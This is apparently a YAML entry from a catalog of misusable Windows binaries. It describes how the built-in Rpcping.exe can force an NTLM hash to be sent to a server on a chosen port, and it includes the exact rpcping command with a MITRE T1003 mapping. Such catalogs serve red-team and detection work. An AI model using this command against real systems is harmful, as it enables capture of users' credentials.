 ```yaml
---
name: Rpcping.exe
description: Used to verify rpc connection
functions:
  credentials:
    - description: Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
      code: rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
      mitreid: T1003
      mitrelink: https://attack.mitre.org/wiki/Technique/T1003
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Capture credentials on a non-standard port
resources:
    - resource: https://github.com/vysec/RedTips
    - resource: https://twitter.com/vysecurity/status/974806438316072960
    - resource: https://twitter.com/vysecurity/status/873181705024266241
fullpath:
    - path: C:\Windows\System32\rpcping.exe
    - path: C:\Windows\SysWOW64\rpcping.exe
detection:
  - IOC: 
acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Vincent Yiu
    Handle: '@vysecurity'
---
```

